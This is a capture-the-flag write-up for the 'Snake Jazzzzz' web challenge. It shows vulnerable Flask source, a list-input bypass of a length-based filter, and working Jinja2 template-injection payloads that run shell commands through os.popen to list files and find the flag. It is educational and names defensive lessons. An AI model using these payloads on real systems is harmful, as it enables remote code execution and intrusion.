In November 2021 I was part of a small team ('Tychologen') that took part in the Cyber Security Days 2021 thankfully organized by the [Ostschweizer Fachhochschule](https://www.ost.ch/).

This is a short write-up for one of the web security challenges called "Snake Jazzzzz", which was rated with easy difficulty.

If you are interested in a write-up for the Muffin Shop challenge, [you will find it here]().


## Introduction

> The federation of Rattlestar Ricklactica has developed a postcard creator for interdimensional visitors to greet their imperiors from far away. The almighty WAF protects the global treasury from adversaries. 

> **Goal:**
> Can you prove that their snake technology is inferior to our human hacking skills?

## My Solution

First things first. I use the Wappalyzer browser extension to figure out, which technologies are used in this web application



Okay we have Python Flask here in the backend.

This is what we see when we visit the web application for the first time:



A simple HTML form with three input fields.
Let's try a simple Cross Site Scripting injection (XSS) here.



But what's that? Seems like some kind of Web Application Firewall (WAF) is in place here.



Okay let's have a look into the source code of that page.




There is a HTML comment inside pointing us to the /source path.

After having a look into /source, we get this beautiful Python code.


```python
from flask import Flask, render_template, request, render_template_string, Response

app = Flask(__name__, static_url_path='/Static', static_folder='Static')


@app.route("/", methods=["GET", "POST"])
def index():
    template = open("/app/template.html", "r").read()

    print(request.json)
    
    if request.method == 'GET':
        title = '<input id="title" data-index="1" type="text" placeholder="Title" class="form-control form-control-underlined border-info">'
        info = '<input id="sender" data-index="1" type="text" placeholder="Sender" class="form-control form-control-underlined border-info"><input id="recipient" data-index="1" type="text" placeholder="Recipient" class="form-control form-control-underlined border-info">'
        template = template.replace("TITLE_HERE", title).replace("INFO_HERE", info)
        return render_template_string(template)
    
    data = {
        "title": request.json["title"],
        "sender": request.json["sender"],
        "recipient": request.json["recipient"],
    }

    for key in data.values():
        if len(key) >= 15:
            template = template.replace("TITLE_HERE", "HACKING DETECTED BY SNAKE WAF").replace("INFO_HERE", "HACKING DETECTED BY SNAKE WAF")
            return render_template_string(template)

    info = """
        <h2>SsssSSSSSSSS SsSSSSSSSSS sssSSSSS {}</h2>
        <h4>{} SsssSSSSS SSsssSSSSS SsssSSSSS SSSSsssSSSSS SsssSSSSS sssS SSSS SssSSSSS sssSSSsssSS</h4>
        <h4>SsssSSSSSSS SSsssSSSSS SsssSSSSSsssS SSSS SsssSSSSSSSSS sssSSSSS SssSSSSSs ssSSSsssSS</h4>
    """.format( data["recipient"], data["sender"])
    template = template.replace("TITLE_HERE", data["title"]).replace("INFO_HERE", info)
    return render_template_string(template)

@app.route("/source", methods=["GET"])
def source():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337)
```


Now we know the routes of this Flask app: /source and / which will accept GET and POST HTTP request. No fuzzing with gobuster needed here and we have a small attack surface here. 

Here is where the WAF obstacle is coming into our way:

```python
for key in data.values():
        if len(key) >= 15:
            template = template.replace("TITLE_HERE", "HACKING DETECTED BY SNAKE WAF").replace("INFO_HERE", "HACKING DETECTED BY SNAKE WAF")
            return render_template_string(template)
```

Our input is limited to 15 characters. Everything longer than that will be replaced with the WAF notice. 

_Hmm..._

At this point I've tried to inject some JavaScript code by concatenating the strings from the different input fields, but had no luck doing this.

But from another challenge ( [Muffin Shop]() ), which was part of the Cybersecurity Day 2021 CTF , I allready knew about Server Side Template Injection ([SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)) in applications that uses Python Flask and miss proper input validation.

So let's try the same thing here.



And it works!



This is great cause now we are able to execute code. But there is still the limit of 15 characters we need to overcome.

Let's have another look into the source code and see how the input is handled.

```python
info = """
        <h2>SsssSSSSSSSS SsSSSSSSSSS sssSSSSS {}</h2>
        <h4>{} SsssSSSSS SSsssSSSSS SsssSSSSS SSSSsssSSSSS SsssSSSSS sssS SSSS SssSSSSS sssSSSsssSS</h4>
        <h4>SsssSSSSSSS SSsssSSSSS SsssSSSSSsssS SSSS SsssSSSSSSSSS sssSSSSS SssSSSSSs ssSSSsssSS</h4>
    """.format( data["recipient"], data["sender"])
    template = template.replace("TITLE_HERE", data["title"]).replace("INFO_HERE", info)
    return render_template_string(template)
```
Okay, `format()` is used to put the values of the `recipient` and `sender` fields into the `info` string. But `title` is handled with `replace()`. 

What is the difference between format() and replace() ?

It's time for a small experiment with Python.

```python
print("This is a short text".replace("short", "very short"))
# --> This is a very short text

print("This is {} text".format("very long"))
# --> This is very long text
```

Both methods will replace a string inside a given text. But what happens when we provide a list as argument for both methods?

```python
myList = ['hello from inside the list']

print("This is a {} text".format(myList))
# --> This is a ['hello from inside the list'] text

print("This is a short text".replace("short", myList))
# --> TypeError: replace() argument 2 must be str, not list
```

As we can see here, replace() only accepts string arguments, whereas format() also allows list-type arguments.

That's good to know cause what is the obstacle? The limit of 15 characters for the user input.

```python
for key in data.values():
        if len(key) >= 15:
            template = template.replace("TITLE_HERE", "HACKING DETECTED BY SNAKE WAF").replace("INFO_HERE", "HACKING DETECTED BY SNAKE WAF")
            return render_template_string(template)
```

The pseudo WAF implented here is based on the len() method. So any input longer than 15 characters will be blocked. BUT what is the length of a Python list? It's the number of elements inside that list. 

```python
myList = ['hello from inside the list']
print(len(myList))
# --> 1
```

That means we can bypass the length limit by using list-type elements as input.

Let's do this by using Burp repeater.



Both values of `recipient` and `sender` are longer than the allowed 15 characters. But because of the usage of the len() method in combination with the inputted list-elements, we get



Now we are able to use the SSTI and can bypass the size limit.

_So what's next?_

[book.hacktricks.xzy](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)  contains some examples on how to exploit this vulnerability to achieve Remote Code Execution (RCE).

I could use the following input to get the username, the current directoy and a directory listing.


```
{
   "title":"",
   "recipient":[
      "{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}"
   ],
   "sender":[
      "{{config.__class__.__init__.__globals__['os'].popen('pwd;ls -al').read()}}"
   ]
}
```




Then I've used

```
{{config.__class__.__init__.__globals__['os'].popen('find / -name \\*flag\\* > find-flag.txt  && cat find-flag').read()}}

```


to search for all files that contain *flag* in it's name and afterwards cat the results out.






## My Learnings

- When XSS and SQLi don't work, try SSTI
- Don't rely on simple ways such as len() to validate user input.
- It's useful to understand the different behaviour of Python format() and replace()  
- [book.hacktricks.xyz](https://book.hacktricks.xyz) is an awesome resource and always a look worth
- [PortSwigger Academy](https://portswigger.net/web-security/server-side-template-injection) is a great reference to learn more about SSTI


## Acknowledgments

Thanks a lot to Ostschweizer Fachhochschule for organizing this CTF event. 
